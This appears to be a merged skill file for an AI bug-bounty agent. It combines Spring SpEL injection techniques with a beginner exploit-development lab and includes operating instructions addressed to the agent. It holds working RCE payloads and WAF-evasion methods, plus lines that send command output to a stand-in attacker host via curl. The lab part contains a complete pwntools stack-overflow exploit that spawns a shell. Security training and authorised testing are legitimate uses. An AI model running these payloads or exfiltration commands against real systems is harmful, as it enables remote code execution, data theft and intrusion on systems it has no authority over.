- **`hunt-api-misconfig`** — BulkImports feature-flag bypass, hidden `source_type` parameters, unrestricted package-registry paths (#733072), exposed Jenkins/Groovy/JMX/Solr consoles (#2083771, #672243, #1456063, #962013) are authorization/configuration failures that expose the exec sink.
- **`hunt-mobile` / `hunt-client`** — Exported activities, deep links, `JavascriptInterface`, WebView URL validation, Electron bridge objects and custom protocol handlers are the client-side RCE surface (TikTok #1065500, Slack #783877, Nord #1001255, Nextcloud #1078002, Basecamp #1016966). Also see the Valve Panorama XSS→RCE class (#631956): grep Panorama layout XML for `html="true"`.
- **`security-arsenal`** — Load the deserialization gadget tree (ysoserial Java/.NET, Python pickle `__reduce__`, Ruby `Gem::Installer`), the ImageTragick payload set, the shell-metacharacter evasions, and the RCE IP/flag-injection tables before testing a suspected sink.
- **`triage-validation`** — Apply the Pre-Severity Gate: a file write is not RCE until you show the execution path; a blind callback with no command proof is not RCE. Demand `id` output or a unique OOB marker before submitting.


---

## Merged Source Knowledge

This section consolidates **1565 unique knowledge blocks** from 12 curated source skills in `hunt-skills/`, `normal-skills/`, and `offensive-skills/`. Blocks overlapping the report-mined sections above were dropped; the complete, globally deduplicated source corpus is archived at `references/source-knowledge.md` (1798 unique sections). No source section appears in more than one hunt skill.


### From `hunt-skills/bountyforge/SKILL.md`

# BountyForge — The 3rd Eye

You are a pentesting reminder system. Your job is to catch the mistakes humans and AIs make:
- **Assuming without evidence** → kill the assumption, find the proof
- **Reporting without validation** → run the gates, every time
- **Exploiting without understanding** → map first, attack second
- **Missing the chain** → two lows = one high, always look for B after finding A

See also: [[Methodology]], [[Trust Map]], [[3rd Eye]], [[Wild Mode]]

---

## The Only Question

> **"Can an attacker do this RIGHT NOW against a real user who has taken NO unusual actions — and does it cause real harm?"**

**Two independent halves — answer BOTH:**
- **TRIGGER** — "Can the path fire?" (reachable, attacker-invokable)
- **IMPACT** — "If it fires, what does the victim lose?" (funds, PII, ATO, RCE)

A proven trigger with untraced impact is an **OPEN LEAD**, not a kill. See [[Lead Ledger]].

---

## Trust-First Workflow

```
MAP TRUST ENDPOINTS → OBSERVE → MODEL THE SYSTEM → GENERATE HYPOTHESES
→ RANK BY INFORMATION GAIN → TEST MINIMALLY → INTERPRET RESPONSE
→ GENERATE NEW HYPOTHESES → CHAIN PRIMITIVES → VALIDATE IMPACT
→ KILL / ESCALATE / REPORT
```

Full detail: [[Methodology]]

---

## Wiki Index

- [[Index]] — All pages and connections
- [[Methodology]] — Trust-first iterative workflow
- [[Trust Map]] — Who trusts whom, attack surface
- [[3rd Eye]] — Pentesting reminders
- [[Wild Mode]] — Cheat-system mindset
- [[Vuln Classes]] — 10 bug classes by trust category
- [[A→B Chains]] — Chain primitives
- [[Lead Ledger]] — Open leads are research objects
- [[Triage]] — 7-Question Gate
- [[Report Writing]] — Platform templates
- [[Web2 Recon]] — Trust-first asset discovery
- [[Web3 Audit]] — Smart contract security
- [[Security Arsenal]] — Payloads and bypasses
- [[Web3 Bug Classes]] — 10 DeFi bug classes
- [[Web3 Hunt Foundation]] — Web3 mindset and recon
- [[Web3 Grep Arsenal]] — Grep commands for smart contracts
- [[Web3 POC Foundry]] — Foundry PoC writing
- [[Web3 Triage Report]] — Immunefi triage and reports
- [[Web3 Methodology Research]] — ToB/SlowMist research
- [[Web3 AI Tools]] — AI-powered audit tools
- [[Web3 Solidity Audit MCP]] — Slither/Aderyn integration
- [[Web3 Start Here]] — Web3 skills master index
- [[Web3 Hunt ZKsync]] — Defense study
- [[Web3 Case Study]] — Role misconfig example
- [[Code Sleuth]] — Storage safety analysis
- [[Fizz]] — Fuzz suite generator
- [[Pashov Solidity Auditor]] — 12-agent parallel audit
- [[Pashov X-Ray]] — Pre-audit report
- [[Meme Coin Audit]] — Rug pull detection, token security

---

## Mode Selection

| Mode | Trigger | Load |
|------|---------|------|
| `--web` | URL, endpoint, API | [[Web2 Recon]], [[Vuln Classes]] |
| `--solidity` | `.sol`, EVM | [[Web3 Audit]], [[Web3 Bug Classes]], [[Web3 Grep Arsenal]], [[Web3 POC Foundry]] |
| `--move` | `.move`, Aptos | [[Web3 Audit]], [[Web3 Bug Classes]] |
| `--solana` | `.rs`, Anchor | [[Web3 Audit]], [[Web3 Bug Classes]] |
| `--full` | No specific mode | All applicable |
| `--report` | "write report" | [[Report Writing]], [[Web3 Triage Report]] |
| `--triage` | Findings list | [[Triage]], [[Web3 Triage Report]] |
| `--fuzz` | "fuzz", "invariant" | [[Fizz]] |
| `--xray` | "pre-audit", "threat model" | [[Pashov X-Ray]] |
| `--meme` | "meme coin", "token" | [[Meme Coin Audit]] |

---

## Operating Constraints

- **One bug class at a time** — go deep, don't spray
- **5-MINUTE RULE** — nothing after 5 min? Switch surfaces
- **1-HOUR RULE** — stuck with no progress? Switch context
- **20-MINUTE ROTATION** — "Am I making progress?" every 20 min
- **No map → no hunt** — understand the target before attacking. See [[Methodology]]


### From `hunt-skills/bountyforge/references/attack-vectors/spel-injection-vectors.md`

## Overview

Spring Boot apps that render exception messages in error pages may evaluate SpEL expressions recursively. If user input reaches an exception message and is rendered by the Whitelabel Error Page, `${7*7}` becomes `49`, and `${T(java.lang.Runtime).getRuntime().exec('id')}` becomes RCE.

**No CVE exists for this** — it's the well-known Spring Boot error page behavior: [spring-projects/spring-boot#4763](https://github.com/spring-projects/spring-boot/issues/4763).

# Step 2: Class discovery — if class name appears, you have full SpEL access
curl -sk "https://TARGET/?q=\${2.class}"

## Where to Test

- Search parameters: `?q=`, `?search=`, `?query=`, `?id=`, `?name=`
- Path parameters: `/user/{name}`
- POST body fields: `{"name": "..."}`
- HTTP headers: `Referer`, `User-Agent`, `X-Custom` (WAF may not inspect these)
- Error message reflection: any input that triggers a 400/500 with the input in the error text
- PDF generators, email templates, invoice names

### What Akamai Blocks
- `T(java.lang.Runtime)` — the T() operator with known dangerous classes
- Single and double quote characters
- `Class.forName()` with string arguments
- Constructor invocations: `new`, `newInstance`
- The `*` (multiply) and `-` (subtract) operators in headers

### What Gets Through
- `${2.class}` — class references
- `${2+2}` — addition
- `${2/1}` — division
- `${2.toString()}` — basic method calls
- `${T(java)}` — partial T() references (varies by WAF config)

### Character-by-Character String Construction (No Quotes)

Since quotes are blocked, build every string from ASCII values via `Character.toString(int)`:

```java
// Get the Character class without using T()
${(2.toString()+2).charAt(0).class}

// Convert ASCII value to character
${(2.toString()+2).charAt(0).class.toString(99)}  // → 'c'

// Build "java.lang.Runtime" character by character
// j=106, a=97, v=118, a=97, .=46, l=108, a=97, n=110, g=103, .=46, R=82, u=117, n=110, t=116, i=105, m=109, e=101
```

### Full Attack Chain

1. **Get any Class reference:**
   ```
   ${2.class} → class java.lang.Integer
   ```

2. **Get Character class (for char construction):**
   ```
   ${(2.toString()+2).charAt(0).class} → class java.lang.Character
   ```

3. **Build string character by character:**
   ```
   ${(2.toString()+2).charAt(0).class.toString(106)} → 'j'
   ```

4. **Get Class.forName via reflection, then Runtime:**
   Use reflection to call `Class.forName("java.lang.Runtime")` with the character-built string, then `getRuntime()`, then `exec("command")`.

5. **Read command output:**
   Use `org.apache.commons.io.IOUtils.toString()` on `getInputStream()`.

### Equivalent Conceptual Payload
```
org.apache.commons.io.IOUtils.toString(
    java.lang.Runtime.getRuntime().exec("uname -a").getInputStream()
)
```
(Every string built character-by-character, ~3KB final payload)

## Header-Based Bypass (When URL Params Are Blocked)

If the WAF blocks URL query parameters but passes headers, inject SpEL through headers:

```bash

# Test which headers bypass the WAF
curl -sk -H "Referer: \${2.class}" "https://TARGET/"
curl -sk -H "X-Custom: \${2+2}" "https://TARGET/"
curl -sk -H "Accept-Language: \${T(java)}" "https://TARGET/"

# Check for SpEL evaluation via timing
time curl -sk -H "Referer: \${T(java.lang.Thread).sleep(3000)}" "https://TARGET/"
```

## OOB Exfiltration (When Response Is Blind)

If SpEL is evaluated but the result isn't visible:

```java
// DNS callback
${T(java.net.URL).new('http://PAYLOAD.burpcollaborator.net/').openConnection().getContent()}

// HTTP exfiltration of command output
${T(java.lang.Runtime).getRuntime().exec('curl http://ATTACKER.com/$(id|base64)')}
```

## Quick WAF Test Matrix

| Payload | WAF Response | Backend Response | Conclusion |
|---------|-------------|-----------------|------------|
| `?q=test` | 200 | "results for test" | WAF allows param |
| `?q=${7*7}` | 200 | "results for 49" | **SpEL confirmed** |
| `?q=${7*7}` | 403 | — | WAF blocks `${` |
| `?q=${7*7}` | 200 | "results for ${7*7}" | SpEL not evaluated |
| `?q=${2.class}` | 200 | "class java.lang..." | **Full SpEL access** |
| `-H "X: ${2.class}"` | 200 | — | Header bypass works |

## Detection Payloads (Least → Most Aggressive)

```
${7*7}                          → 49 (math eval)
${2.class}                      → class java.lang.Integer
${2.toString()}                 → "2"
${"test".length()}              → 4
${T(java.lang.String)}          → class java.lang.String
${T(java.lang.Runtime)}         → class java.lang.Runtime (WAF may block)
```

## RCE Payloads

```java
// Direct Runtime.exec
${T(java.lang.Runtime).getRuntime().exec('curl http://ATTACKER/$(id)')}

// ProcessBuilder
${new java.lang.ProcessBuilder('id').start()}

// Spring-specific (if on classpath)
${T(org.springframework.cglib.core.ReflectUtils).defineClass('Exploit',T(org.springframework.util.Base64Utils).decodeFromString('...'),T(Thread).currentThread().getContextClassLoader())}
```

## Practice Lab

[jzheaux/spel-injection](https://github.com/jzheaux/spel-injection) — Local Spring Boot app for testing SpEL payloads.

## Reference

Full writeup: [pmnh.site/post/writeup_spring_el_waf_bypass](https://www.pmnh.site/post/writeup_spring_el_waf_bypass/)


### From `hunt-skills/bountyforge/references/local-tooling.md`

# Local Tooling & Vulnerability Coverage

This standalone reference file documents the local CLI tooling and web/API vulnerability classes that BountyForge agents may use when Claude Code execution is enabled.

## Local CLI Tool Support

When Claude Code can execute locally, BountyForge can orchestrate available tools directly. Ensure the following are installed and on `PATH`:

- `nmap`
- `ffuf`
- `amass`
- `sqlmap`
- `gobuster`
- `curl`
- `httpx`
- `wfuzz`
- `zap`
- `burpsuite`

Use these tools for discovery, fuzzing, payload generation, proof-of-concept validation, and evidence collection.

## Deepseek Claude CLI Setup

For temporary Deepseek Pro usage:

```bash
export ANTHROPIC_BASE_URL=https://api.deepseek.com/anthropic
export ANTHROPIC_MODEL=deepseek-v4-pro
export ANTHROPIC_DEFAULT_OPUS_MODEL=deepseek-v4-pro
export ANTHROPIC_DEFAULT_SONNET_MODEL=deepseek-v4-pro
export ANTHROPIC_DEFAULT_HAIKU_MODEL=deepseek-v4-flash
export CLAUDE_CODE_SUBAGENT_MODEL=deepseek-v4-flash
export CLAUDE_CODE_EFFORT_LEVEL=max
export ANTHROPIC_AUTH_TOKEN="your-deepseek-pro-token"

deepseek export --project . --key "$ANTHROPIC_AUTH_TOKEN" --mode pro
```

For Windows PowerShell:

```powershell
$env:ANTHROPIC_BASE_URL = "https://api.deepseek.com/anthropic"
$env:ANTHROPIC_MODEL = "deepseek-v4-pro"
$env:ANTHROPIC_DEFAULT_OPUS_MODEL = "deepseek-v4-pro"
$env:ANTHROPIC_DEFAULT_SONNET_MODEL = "deepseek-v4-pro"
$env:ANTHROPIC_DEFAULT_HAIKU_MODEL = "deepseek-v4-flash"
$env:CLAUDE_CODE_SUBAGENT_MODEL = "deepseek-v4-flash"
$env:CLAUDE_CODE_EFFORT_LEVEL = "max"
$env:ANTHROPIC_AUTH_TOKEN = "your-deepseek-pro-token"

deepseek export --project . --key $env:ANTHROPIC_AUTH_TOKEN --mode pro
```

## Broader Web/API Vulnerability Coverage

BountyForge is designed to hunt across a wide range of attack classes with no fixed payload limit.

- open redirect
- CSV injection
- SQL injection
- XSS (reflected, stored, DOM)
- SSRF
- command injection
- template injection
- path traversal
- insecure deserialization
- prototype pollution
- request smuggling
- parameter pollution
- HTTP response splitting
- host header injection
- cache poisoning
- business logic abuse
- IDOR
- CSRF
- OAuth redirect abuse
- privilege escalation

Agents should reason about these classes and use local tooling when available to verify and expand findings.


### From `hunt-skills/exploit-dev/offensive-basic-exploitation/SKILL.md`

## Metadata
- **Skill Name**: basic-exploitation
- **Folder**: offensive-basic-exploitation
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/5-basic-exploitation.md

## Description
Week 5 exploit development curriculum. Foundational exploitation techniques: controlling EIP/RIP, ROP chain construction, ret2libc, shellcode injection, heap spraying, bypass techniques for ASLR/NX/stack canaries. Use when building initial PoCs or understanding classic exploitation primitives.

## Trigger Phrases
Use this skill when the conversation involves any of:
`basic exploitation, EIP control, RIP control, ROP chain, ret2libc, shellcode injection, heap spray, ASLR bypass, NX bypass, stack canary bypass, week 5`

## Overview

_created by AnotherOne from @Pwn3rzs Telegram channel_.

Now that you can find and analyze vulnerabilities (Week 2 & 4), it's time to learn exploitation. This week focuses on fundamental exploitation techniques in a simplified Linux environment with modern mitigations (DEP, ASLR, stack canaries) disabled. Mastering these basics is essential before tackling mitigation bypasses in Week 7.

Next week (Week 6) we'll focus on understanding mitigations in both Linux and Windows. Week 7 will cover bypassing them.

**Learning Environment**:

- **CPU arch (default)**: amd64 (x86-64)
- **OS**: Ubuntu 24.04 LTS (Linux)
- **Compiler Flags**: Disable protections (`-fno-stack-protector`, `-no-pie`, `-z execstack` for ret2shellcode labs, `/GS-`)
- **ASLR**: Keep enabled system-wide; disable per-process (`setarch -R`) or in GDB (`set disable-randomization on`) for deterministic labs
- **Focus**: Pure exploitation techniques without bypass complexity

## Day 1: Environment Setup and Stack Overflow Fundamentals

- **Goal**: Set up exploitation lab and understand stack buffer overflow mechanics.
- **Activities**:
  - _Reading_:
    - "Hacking: The Art of Exploitation" 2nd edition, by Jon Erickson - Chapter 0x300: "EXPLOITATION"
    - [Smashing The Stack For Fun And Profit](https://phrack.org/issues/49/14_md#article) - Classic paper
  - _Online Resources_:
    - [x86-64 Calling Conventions](https://wiki.osdev.org/Calling_Conventions)
    - [Stack Layout Visualization](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)
  - _Tool Setup_:
    - Ubuntu VM with protections disabled
    - pwntools, pwndbg, ROPgadget
  - _Exercise_:
    - Compile and exploit first vulnerable program
    - Overwrite return address to execute shellcode

### Context: QNAP Stack Overflow (CVE-2024-27130)

- Recall the **QNAP QTS Stack Overflow** from Week 1? That was a classic stack buffer overflow caused by `strcpy` without bounds checking—exactly what we'll be exploiting today.
- While modern systems have mitigations (which we'll disable for now), the underlying mechanic remains the same: overwriting the return address to hijack control flow.

### Deliverables

- **Environment**: `~/check_env.sh` passes and you recorded its output
- **Binary**: `vuln1` built and verified with `checksec`
- **Primitive proof**: RIP control demonstrated (controlled crash address)
- **Exploit**: `exploit1.py` (or equivalent) spawns a shell reliably
- **Notes**: brief writeup covering offset, return target, and payload layout

### Setting Up the Lab Environment

**Ubuntu VM Configuration**:

> [!IMPORTANT]
> **ASLR Policy**: Keep ASLR **enabled system-wide** for security. Disable only per-process for labs.
> Never disable ASLR globally on a machine connected to the internet.

```bash

# VERIFY: Check system ASLR is STILL ENABLED
cat /proc/sys/kernel/randomize_va_space

# ============================================================

sudo apt update
sudo apt install -y \
    nasm \
    strace \
    ltrace \
    ruby \
    ruby-dev \
    libc6-dbg \
    checksec \
    patchelf

cd ~/crash_analysis_lab
source .venv/bin/activate
pip install ropgadget

# Install radare2 (optional but useful)
cd ~/tools
git clone --depth 1 --branch master https://github.com/radareorg/radare2
cd radare2
sys/install.sh

# Usage: make <target> BINARY=myprogram SOURCE=myprogram.c

CC = gcc
SOURCE ?= vuln.c
BINARY ?= vuln

# Base flags for all builds (AMD64)
BASE_CFLAGS = -g -O0 -fno-omit-frame-pointer -fno-stack-protector
BASE_LDFLAGS = -no-pie

# 5. format-sec: for format-security bugs

disabled: $(SOURCE)
	$(CC) $(BASE_CFLAGS) $(BASE_LDFLAGS) -w -fcf-protection=none -z execstack -o $(BINARY) $(SOURCE)
	@echo "Built: NX=OFF, Canary=OFF, PIE=OFF, RELRO=Partial"
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

training-shellcode: $(SOURCE)
	$(CC) $(BASE_CFLAGS) $(BASE_LDFLAGS) -z execstack -o $(BINARY) $(SOURCE)
	@echo "Built: NX=OFF, Canary=OFF, PIE=OFF, RELRO=Partial"
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

training-rop: $(SOURCE)
	$(CC) $(BASE_CFLAGS) $(BASE_LDFLAGS) -o $(BINARY) $(SOURCE)
	@echo "Built: NX=ON, Canary=OFF, PIE=OFF, RELRO=Partial"
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

training-relro-off: $(SOURCE)
	$(CC) $(BASE_CFLAGS) $(BASE_LDFLAGS) -fcf-protection=none -Wl,-z,norelro -o $(BINARY) $(SOURCE)
	@echo "Built: NX=ON, Canary=OFF, PIE=OFF, RELRO=OFF"
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

training-full-relro: $(SOURCE)
	$(CC) $(BASE_CFLAGS) $(BASE_LDFLAGS) -fcf-protection=none -Wl,-z,relro,-z,now -o $(BINARY) $(SOURCE)
	@echo "Built: NX=ON, Canary=OFF, PIE=OFF, RELRO=FULL (GOT read-only!)"
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

format-sec: $(SOURCE)
	$(CC) $(BASE_CFLAGS) $(BASE_LDFLAGS) -w -fcf-protection=none -Wno-format-security -o $(BINARY) $(SOURCE)
	@echo "Built: NX=OFF, Canary=OFF, PIE=OFF, RELRO=Partial"
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

# Show all protections
check:
	@checksec --file=$(BINARY) 2>/dev/null || pwn checksec $(BINARY)

clean:
	rm -f $(BINARY) *.o

.PHONY: disabled training-shellcode training-rop training-relro-off training-full-relro format-sec check clean
MAKEFILE

echo "Makefile created at ~/lab-Makefile"
echo "Copy to your lab directory: cp ~/lab-Makefile ./Makefile"
```

> [!NOTE]
> Ubuntu 24.04:
>
> - Uses glibc 2.39 with full safe-linking and removed hooks
> - Requires `python3-venv` for pip package installation (PEP 668)
> - For classic heap techniques, consider using Docker with older Ubuntu

### GDB Enhancement Options

**Verify Setup**:

```bash
mkdir -p exploit
cd exploit
cp ~/lab-Makefile ./Makefile
source ~/crash_analysis_lab/.venv/bin/activate

# Test compilation without protections (AMD64)
cat > test.c << 'EOF'
#include <stdio.h>
#include <string.h>
int main() {
    char buf[100];
    gets(buf);  // Vulnerable: reads from stdin, no bounds check
    return 0;
}
EOF

make training-shellcode BINARY=test SOURCE=test.c
#gcc -g -O0 -w -fno-stack-protector -z execstack -no-pie test.c -o test

# System info
echo "[*] System Information:"
echo "    Kernel: $(uname -r)"
echo "    glibc:  $(ldd --version | head -1 | awk '{print $NF}')"
echo ""

# ASLR status
echo "[*] ASLR Status:"
ASLR=$(cat /proc/sys/kernel/randomize_va_space)
case $ASLR in
    0) echo "    WARNING: ASLR is DISABLED system-wide (insecure!)" ;;
    1) echo "    Partial ASLR (stack only)" ;;
    2) echo "    Full ASLR enabled (correct for system)" ;;
esac
echo ""

# Binary check
if [ -n "$1" ] && [ -f "$1" ]; then
    echo "[*] Binary Analysis: $1"
    echo "    Architecture: $(file "$1" | grep -oE '(32|64)-bit')"
    checksec --file="$1" 2>/dev/null || pwn checksec "$1" 2>/dev/null
    echo ""
fi

# GDB randomization
echo "[*] GDB ASLR (check inside GDB with 'show disable-randomization'):"
echo "    Default: ON (disabled randomization = deterministic addresses)"
echo ""

echo "[+] Environment check complete."
echo "    For per-process ASLR disable: setarch x86_64 -R ./binary"
echo "    Or in pwntools: process('./binary', aslr=False)"
SCRIPT
chmod +x ~/check_env.sh
echo "Sanity check script created: ~/check_env.sh"
~/check_env.sh
```

### pwntools Essentials

Before diving into exploitation, master these pwntools fundamentals. The `ELF()` class is your primary interface for analyzing binaries—use it throughout this course.

**ELF() Basics**:

```bash
cd ~/exploit
source ~/crash_analysis_lab/.venv/bin/activate
cp ~/crash_analysis_lab/vuln_no_protect .
```

```python
#!/usr/bin/env python3

# Load the binary and set context
elf = ELF('./vuln_no_protect')
context.binary = elf   # Auto-sets arch, os, endian, bits
context.arch = 'amd64' # Explicit (redundant if context.binary is set)

# Binary metadata (always check these first!)
print(f"Architecture: {elf.arch}")          # amd64
print(f"Bits: {elf.bits}")                   # 64
print(f"Endian: {elf.endian}")               # little
print(f"PIE enabled: {elf.pie}")             # True/False
print(f"Entry point: {hex(elf.entry)}")      # Where execution starts

# Symbol lookup - CRITICAL for exploitation
print(f"main @ {hex(elf.symbols['main'])}")
print(f"vulnerable_function @ {hex(elf.symbols['stack_overflow'])}")

# Find imported functions (from libc)
print(f"puts@plt: {hex(elf.plt['puts'])}")   # PLT stub
print(f"puts@got: {hex(elf.got['puts'])}")   # GOT entry

# Find gadgets and strings
print(f"'/bin/sh' in binary: {hex(elf.search(b'/bin/sh').__next__())}" if b'/bin/sh' in elf.data else "Not found")

# For binaries linked with libc
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
print(f"system in libc: {hex(libc.symbols['system'])}")
print(f"/bin/sh in libc: {hex(next(libc.search(b'/bin/sh')))}")
```

**Context Configuration** (set BEFORE any pwntools operations):

```python

# === CRITICAL: Set context from binary (AMD64) ===
elf = ELF('./vuln_no_protect')
context.binary = elf     # Sets arch='amd64', os='linux', endian='little' automatically!

# Logging level
context.log_level = 'debug'  # Show all pwntools output
context.log_level = 'info'   # Normal output (default)
context.log_level = 'error'  # Only errors

# Data packing (architecture-aware after setting context)
addr = p64(0xdeadbeef)        # Pack 64-bit address (little-endian) - AMD64
val = u64(b'\xef\xbe\xad\xde\x00\x00\x00\x00')  # Unpack 8 bytes to integer
```

### Understanding the Stack (AMD64)

**Stack Layout (x86-64 / AMD64)**:

```
High Memory
┌─────────────────────┐
│  Command-line args  │
├─────────────────────┤
│  Environment vars   │
├─────────────────────┤
│        ...          │
├─────────────────────┤
│   Stack Frame N     │
│  ┌───────────────┐  │
│  │   Locals      │  │ ← RSP (Stack Pointer)
│  ├───────────────┤  │
│  │   Saved RBP   │  │ ← RBP (Base Pointer)
│  ├───────────────┤  │
│  │   Return Addr │  │ ← Overwrite target! (8 bytes on AMD64)
│  ├───────────────┤  │
│  │   (Args 7+)   │  │   (First 6 args in registers!)
│  └───────────────┘  │
├─────────────────────┤
│   Stack Frame N-1   │
├─────────────────────┤
│        ...          │
└─────────────────────┘
Low Memory
```

**AMD64 vs x86 Key Differences**:

| Feature             | x86 (32-bit)      | AMD64 (64-bit)             |
| ------------------- | ----------------- | -------------------------- |
| Register prefix     | E (EAX, EBP, ESP) | R (RAX, RBP, RSP)          |
| Instruction pointer | EIP               | RIP                        |
| Address size        | 4 bytes           | 8 bytes                    |
| Arguments           | All on stack      | RDI, RSI, RDX, RCX, R8, R9 |
| Return value        | EAX               | RAX                        |
| Syscall instruction | `int 0x80`        | `syscall`                  |
| Stack alignment     | 4-byte            | **16-byte before `call`**  |

**System V AMD64 ABI Calling Convention**:

```asm
; AMD64 function call: func(arg1, arg2, arg3, arg4, arg5, arg6, arg7)
; Arguments in order:
;   RDI = arg1
;   RSI = arg2
;   RDX = arg3
;   RCX = arg4
;   R8  = arg5
;   R9  = arg6
;   stack = arg7+ (pushed right-to-left)
; Return value: RAX

; Example: write(1, buf, len)
mov rdi, 1        ; fd = stdout
mov rsi, buf      ; buffer address
mov rdx, len      ; length
call write

; Syscall convention (slightly different):
;   RAX = syscall number
;   RDI, RSI, RDX, R10, R8, R9 = arguments (note: R10 instead of RCX!)
;   syscall instruction (not int 0x80)
```

**Function Call Mechanics (AMD64)**:

```asm
; Calling a function (AMD64)
; Arguments go in registers (first 6)
mov rdi, arg1
mov rsi, arg2
call function      ; Pushes 8-byte return address

; Inside function
function:
    push rbp          ; Save old base pointer (8 bytes)
    mov rbp, rsp      ; Set new base pointer
    sub rsp, 0x40     ; Allocate space for locals (must maintain 16-byte alignment)

    ; Function body...

    mov rsp, rbp      ; Restore stack pointer (or: leave)
    pop rbp           ; Restore base pointer
    ret               ; Return (pops return address into RIP)
```

**Buffer Overflow Visualization (AMD64)**:

```text
Before overflow:
┌──────────────────┐
│   buffer[64]     │ ← strcpy writes here
├──────────────────┤
│   saved RBP      │  (8 bytes on AMD64)
├──────────────────┤
│  return address  │  (8 bytes on AMD64)
└──────────────────┘

After overflow with 80 'A's:
┌──────────────────┐
│ AAAAAAAAAA...    │ ← buffer filled (64 bytes)
├──────────────────┤
│ AAAAAAAA         │ ← saved RBP overwritten (8 bytes)
├──────────────────┤
│ AAAAAAAA         │ ← return address overwritten! (8 bytes)
└──────────────────┘

When function returns:
- Pops 0x4141414141414141 into RIP
- CPU tries to execute at 0x4141414141414141
- Segmentation fault (or controlled execution if address is valid)
```

### First Vulnerable Program

**vuln1.c**:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[64];
    printf("Enter input: ");
    gets(buffer);  // Vulnerable! No bounds checking, allows null bytes
    printf("You entered: %s\n", buffer);
}

// Add this function to vuln1.c to include jmp rsp bytes
void gadgets() {
    __asm__("jmp *%rsp");  // This creates a jmp rsp gadget
}

int main() {
    printf("Buffer overflow example\n");
    vulnerable_function();
    printf("Returned safely\n");
    return 0;
}
```

**Compile without protections (AMD64)**:

```bash
cd ~/exploit

# Segmentation fault
```

**Step 2: Find Exact Offset** (using pattern):

```python
#!/usr/bin/env python3
#~/exploit/4.py
from pwn import *

context.arch = 'amd64'

# aslr=False + env={} for consistent addresses during learning
p = process('./vuln1', aslr=False, env={})
p.sendline(pattern)
p.wait()
```

**In GDB with pwndbg (AMD64)**:

```bash
gdb ./vuln1

# Run and send pattern via stdin
pwndbg> run < <(python3 -c "from pwn import *; print(cyclic(100).decode())")

# Build payload
payload = b"A" * 72                    # Fill buffer + saved RBP
payload += p64(0xdeadbeefcafebabe)     # Overwrite return address (8 bytes)

# Run and send via stdin (aslr=False for learning)
p = process('./vuln1', aslr=False, env={})
p.sendline(payload)
p.wait()
```

**In GDB (AMD64)**:

```bash
gdb ./vuln1
pwndbg> run < <(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xbe\xba\xfe\xca\xef\xbe\xad\xde')")

# 0x7fffffffe0b8: 0xdeadbeefcafebabe   <- We control the return address!
```

**Working Exploit for vuln1 (stdin-based)**

```python
#!/usr/bin/env python3

# ~/exploit/exploit_vuln1.py
"""
Stack Buffer Overflow Exploit Template (stdin-based)

Target: vuln1 (reads input via gets() from stdin)
Vulnerability: gets() has no bounds checking, allows null bytes
Technique: ret2shellcode via jmp rsp gadget
"""
from pwn import *

# ============ SETUP (AMD64) ============
binary_path = './vuln1'
elf = ELF(binary_path)
context.binary = elf  # Sets arch=amd64 automatically

# Stack layout: [buffer:64] [saved RBP:8] [return addr:8]
OFFSET = 64 + 8  # = 72 bytes to overwrite return address

# ============ EXPLOIT ============
def exploit():
    # For LEARNING: Disable ASLR, clean environment for consistent addresses
    # For PRODUCTION: Use leaks and relative addressing
    # NOTE: stdin=PTY, stdout=PTY forces unbuffered output so prompts arrive
    #       before input is needed (otherwise printf buffers when piped)
    p = process(binary_path, aslr=False, env={}, stdin=PTY, stdout=PTY)

    # Alternatively, for remote targets:
    # p = remote('target.host', 1337)

    # Wait for prompt (important for synchronization!)
    p.recvuntil(b'Enter input: ')
    # ============ FIND GADGET ============
    # Our vuln1.c includes a jmp rsp gadget in gadgets()
    # Find it: ROPgadget --binary vuln1 | grep "jmp rsp"
    # Or use pwntools:
    rop = ROP(elf)
    try:
        jmp_rsp = rop.find_gadget(['jmp rsp'])[0]
    except:
        # Fallback: search for the bytes
        jmp_rsp = next(elf.search(asm('jmp rsp')))

    log.info(f"jmp rsp gadget @ {hex(jmp_rsp)}")

    # ============ BUILD PAYLOAD ============
    # Shellcode goes AFTER the return address (we jump to RSP)
    shellcode = asm(shellcraft.amd64.linux.sh())
    log.info(f"Shellcode length: {len(shellcode)} bytes")

    payload = b'A' * OFFSET           # Fill buffer + saved RBP
    payload += p64(jmp_rsp)           # Overwrite return address with jmp rsp
    payload += shellcode              # Shellcode right after return addr
                                      # RSP points here after ret!

    log.info(f"Total payload: {len(payload)} bytes")

    # ============ SEND PAYLOAD ============
    # sendline() sends raw bytes over the pipe - null bytes work fine!
    # This is the proper way to deliver exploits
    p.sendline(payload)

    # ============ GET SHELL ============
    log.success("Payload sent! Switching to interactive mode...")
    p.interactive()

def debug():
    """Debug mode - attach GDB manually"""
    p = process(binary_path, aslr=False, env={}, stdin=PTY, stdout=PTY)
    log.info("Run the following commands in a SECOND terminal")
    log.info("gdb -p $(pidof vuln1)")
    log.info("b vulnerable_function")
    log.info("c")
    pause()

    p.recvuntil(b'Enter input: ')
    payload = cyclic(200)
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    if args.GDB:
        debug()
    else:
        exploit()

#### Writing Simple Shellcode

**Linux AMD64 Shellcode Basics**:

**Syscall Convention (AMD64)**:

- `syscall` instruction triggers syscall (NOT `int 0x80`!)
- `rax` = syscall number
- `rdi, rsi, rdx, r10, r8, r9` = arguments (note: r10 instead of rcx)
- Return value in `rax`

**execve("/bin/sh", NULL, NULL) Shellcode (AMD64)**:

```asm
; AMD64 execve syscall (rax = 59)
; rdi = pointer to "/bin/sh"
; rsi = NULL (argv)
; rdx = NULL (envp)

section .text
global _start

_start:
    ; Clear registers
    xor rsi, rsi          ; rsi = NULL (argv)
    xor rdx, rdx          ; rdx = NULL (envp)

    ; Push "/bin/sh" onto stack (with NULL terminator)
    xor rax, rax
    push rax              ; NULL terminator
    mov rax, 0x68732f6e69622f2f  ; "//bin/sh" in little-endian
    push rax

    ; Set up execve
    mov rdi, rsp          ; rdi = pointer to "//bin/sh"
    xor rax, rax
